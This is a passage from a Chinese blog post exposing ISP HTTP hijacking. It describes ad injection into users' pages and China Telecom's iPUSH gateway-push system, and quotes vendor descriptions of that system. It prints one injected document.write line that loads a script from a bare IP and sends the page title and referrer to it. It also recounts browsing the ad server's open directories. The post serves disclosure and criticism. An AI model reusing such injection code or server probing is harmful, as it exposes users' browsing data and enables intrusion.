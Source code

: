 这个广告跳转的链接是`http://x.kuwo.cn/KuwoLive/OpenLiveRoomLink?from=2066100001`，经过跳转最后停留在`http://x.kuwo.cn/360071?from=2066100001`，是酷我音乐的视频在线直播平台。

运营商终于暴露出卑鄙无耻下作的一面，完全无视宽带付费用户的合法权益，对用户的网络实施着暴力强奸！根据网上查到的资料，这类劫持已经不是修改DNS就能解决的，他偷换了用户正常访问的HTTP包，完全没有办法消除。从此延伸出来电信可以劫持任意的HTTP访问请求，那么也可以在网页上注入任何的代码，只要他想，甚至完全可以窃取所有用户的各种网站非加密的账号，这将会多么可怕？以这种无节操非法牟利的尿性下去，我只能往最阴暗的方向去发散思维。

## 8月12日 ##

几天后，我再次打开Chrome控制台，看到注入代码中增加了一行广告代码：

	document.write('<script language="javascript" src="http://61.144.xxx.xxx:88/lighttpd/default/re/re.php?src=t0035&t='+encodeURIComponent(document.title)+'&ci=3550963991&r='+encodeURIComponent(document.referrer)+'"><\/script>');

通过这个请求展示出的广告内容。从这里我产生了极大的好奇，广告物料存放在的是一个非常规HTTP端口和无域名的服务器IP，不由得把这个地址拿出来单独访问看看会有什么结果。进入服务器根路径就是一个CentOS的Apache服务初始页，没有太离奇。而当我一层一层目录切换进去以后，看到了一个很有意思的东西：

<figure>
	<img src="http://mbed.qiniudn.com/yanjunyi.com/img/telecom-intercept/telecom-intercept-server.jpg" />
	<figcaption>Apache服务非但没有关闭默认目录索引，甚至还看到部署了一个名叫“ipush”的应用服务（此截图产生于8月13日，本想补充说明，但当天弹出广告IP已经发生更换）</figcaption>
</figure>

我先去`re`目录中搜罗了一番，除了一堆没有被服务器解析的`.inc`文件透露了服务器memcache的本地端口以外，没找到数据库密码之类的关键信息。而ipush这个东西刚好是前几天Google搜索“[电信 运营商 劫持](https://www.google.com.hk/search?q=ipush+%E7%94%B5%E4%BF%A1&oq=ipush+%E7%94%B5%E4%BF%A1&aqs=chrome..69i57j69i61.5223j0j7&sourceid=chrome&es_sm=119&ie=UTF-8)”里看到的几篇篇文章：

* [重庆电信建IPUSH系统 为宽带业务保驾护航](http://www.zzchn.com/news/20070928/49398.shtml)
* [四川电信的IPUSH广告真牛，又升级了。。](http://home.itchaguan.com/thread-1526-1-1.html)
* [ipush推送广告简介](http://wenku.baidu.com/view/87cbdfd7c1c708a1284a44a8.html)

> 网络定向直投系统（也称IPUSH)，是由中国电信开发的划时代网络技术，可以以各种格式定时、定点将广告推送到网络在线用户端的浏览主页面。通过这个传播平台,不论电信用户在IE浏览器地址栏中输入任何网址进行浏览，网络定向直投系统均可将广告主动送达用户，不依赖于某个固定的网站。可以自由选择目标市场区域，灵活投放，全面覆盖。
> 
> ——以区域为单位,以宽带用户为依托的电信级网关广告。

* [Sunway iPUSH信息主动推送系统](http://www.sunways.com.cn/product_detail.asp?productID=13)

> ### （1）系统介绍 ###
> 
> 互联网信息推送技术是近年来发展起来的一种基于协议分析的全新的互联网应用技术，在理论上它是只有电信宽带运营商才能掌握的业务资源，并具有强制性、实时性、交互性和选择性（分众性）等特性。
> 
> iPUSH互联网信息推送系统可以强制推送信息到电信所有宽带上网客户的终端桌面，因此，它不仅是电信运营商进行业务营销推广的良好工具，同时也是ISP客户上网接入的强制门户、独占资源的广告平台、互联星空SP业务推广平台、互联网内容控制、网络应用协议监测和检测控制平台….等。
> 
> ### （2）技术说明 ###
> 
> iPUSH技术是一种由协议分析处理核心系统（协议分析处理器）发起的、直接向上网浏览终端推送指定信息的网络技术。协议分析处理核心系统通过数据采集端口（光纤链路分光端口）实时获取网骨干网出口节点的http协议的网络数据报文，通过分析获取上网客户浏览数据。在完成了上述报文分析的同时，按http协议规范向目标客户推送指定信息内容。目标客户的识别（上网帐号、主叫号码）可以通过宽带RADIUS认证后台数据接口或专门的TCA认证模块完成，TCA认证模块工作原理也是基于对RADIUS协议认证数据包的协议分析为基础的。
> 
> ### （3）功能特点 ###
> 
> 宽带运营支撑平台的“iPUSH互联网信息推送”系统可以有效管理推送内容，推送目标客户对象，推送的计划策略。采用基于web的管理后台，操作使用简便，并可以远程业务管理，功能强大，特点鲜明：
> 
> 0. 系统可以从上网帐号、主叫号码、接入号码、端口类型、客户IP、Nas IP、Redius IP等七项标示对目标客户的甄别，极大地提高了推送业务的灵活性和选择性。
> 0. 系统支持目标客户白名单的批量数据导入和管理，极大地方便了与其他业务系统，如BOSS系统、营帐系统、MSS系统的数据交换，方便运营商灵活细分客户进行推送。
> 0. 系统支持推送黑名单管理，可以永久避免对敏感客户的推送。
> 0. 系统有强大的监控功能和日志管理，不仅可以对每一个推送任务进行实时的推送数据统计，还可以提供推送内容点击、提交等事件统计。
> 0. 系统有灵活的角色权限管理，可以实现运营商各个业务、技术部门同时协调进行推送作业，各类权限均可以细分和重组。
> 0. 系统可以管理各类推送信息的样式模版。根据使用经验灵活编制的各类模版（弹出/嵌入式窗口尺寸规格、推送到达后停止方式、窗口停留和关闭方式等…），可以随推送内容和推送对象的不同而灵活选择。既支持弹出式窗口模版，还支持嵌入式推送模版，避免浏览器屏蔽弹出窗口。
> 0. 系统还提供了简便的立即测试工具，可以随时测试系统的性能、推送内容页面。
> 0. 系统支持并行推送任务管理，可以同时并发对不同目标客户群推送不同的信息页面，并且能对并行推送任务进行优先级设定。
> 0. 系统对每一个推送计划任务都能进行灵活的策略管理，例如设定推送时间周期、每天推送时间段、每次客户上线后的推送次数、推送信息页面样式模版设定等等…。
